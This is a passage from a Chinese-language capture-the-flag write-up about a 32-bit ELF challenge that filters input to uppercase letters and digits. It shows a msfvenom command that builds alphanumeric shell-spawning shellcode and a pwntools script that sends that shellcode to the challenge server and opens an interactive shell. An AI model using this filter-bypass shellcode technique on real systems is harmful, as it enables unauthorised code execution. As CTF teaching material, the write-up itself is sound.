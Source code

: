 #### T2

增加了字符过滤，只允许A-Z和0-9

怎么办呢？

发现是32位的ELF

```bash
file chall2
chall2: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=2ae2aca37c13b197362f8f8709c158d20be5a983, for GNU/Linux 3.2.0, not stripped
```

搜索引擎找了一下发现

可以用msfvenom借助 x86/alpha_upper 的Encoder生成一个只有大写字母和数字的shellcode

> 注意要手动指定BufferRegister=ECX 否则生成的shellcode头部会带一下用于定位的无法用ASCii编写的shellcode

```bash
msfvenom -a x86 --platform linux -p linux/x86/exec CMD="sh" -e x86/alpha_upper BufferRegister=ECX -f python x86/alpha_upper
```

类似地用pwntool写一个Exploit

```python
#coding=utf-8
from pwn import *
context(arch = 'i386', os = 'linux')

token="xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
dist=remote("202.38.93.241","10002")
#dist=process("./chall2")
buf =  b""
buf += b"\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x51\x5a"
buf += b"\x56\x54\x58\x33\x30\x56\x58\x34\x41\x50\x30\x41\x33"
buf += b"\x48\x48\x30\x41\x30\x30\x41\x42\x41\x41\x42\x54\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x58\x50"
buf += b"\x38\x41\x43\x4a\x4a\x49\x42\x4a\x44\x4b\x36\x38\x4a"
buf += b"\x39\x46\x32\x45\x36\x43\x58\x36\x4d\x43\x53\x4c\x49"
buf += b"\x4d\x37\x55\x38\x56\x4f\x34\x33\x35\x38\x43\x30\x42"
buf += b"\x48\x46\x4f\x53\x52\x53\x59\x32\x4e\x4d\x59\x4b\x53"
buf += b"\x31\x42\x5a\x48\x43\x33\x55\x50\x35\x50\x43\x30\x54"
buf += b"\x33\x35\x38\x55\x50\x46\x37\x31\x43\x4b\x39\x4d\x31"
buf += b"\x58\x4d\x4d\x50\x41\x41"
dist.recvuntil("Please input your token: ")
dist.sendline(token)
dist.send(buf)
dist.interactive()
```

### T3 

一看过滤的字符更少了呀，应该直接复制一下就行了？
